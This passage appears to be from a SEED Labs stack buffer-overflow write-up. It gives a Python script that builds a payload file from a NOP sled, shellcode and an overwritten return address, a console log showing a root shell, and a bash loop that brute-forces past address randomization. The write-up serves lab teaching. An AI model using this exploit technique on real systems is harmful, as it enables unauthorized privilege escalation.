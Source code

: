 ```python
content = bytearray(0x90 for i in range(517))

# Put the shellcode at the end
start = 517 - len(shellcode)
content[start:] = shellcode

##################################################################
ret    = 0xbfffea18 + 100       # 0xbfffea7c
offset = 38 + 4                 # 0xbfffea18 - 0xbfffe9f2 (as dec)

content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Generate a new badfile and make sure we are `root` again:

```console
seed@VM:$ exploit.py
seed@VM:$ ./stack
# whoami
root
```

## Task 4: Defeating Address Randomization

Enable address randomization again:

```console
$ sudo /sbin/sysctl -w kernel.randomize_va_space=2
kernel.randomize_va_space=2
$ ./stack
Segmentation fault
```

We now get a Swgmentation Fault due to the address randomization. This can be brute forced until success with a simple script written in i.e. bash:

```sh
#!/bin/bash

SECONDS=0
value=0

while [ 1 ]
    do
    value=$(( $value + 1 ))
    duration=$SECONDS
    min=$(($duration / 60))
    sec=$(($duration % 60))
    echo "$min minutes and $sec seconds elapsed."
    echo "The program has been running $value times so far."
    ./stack
done
```
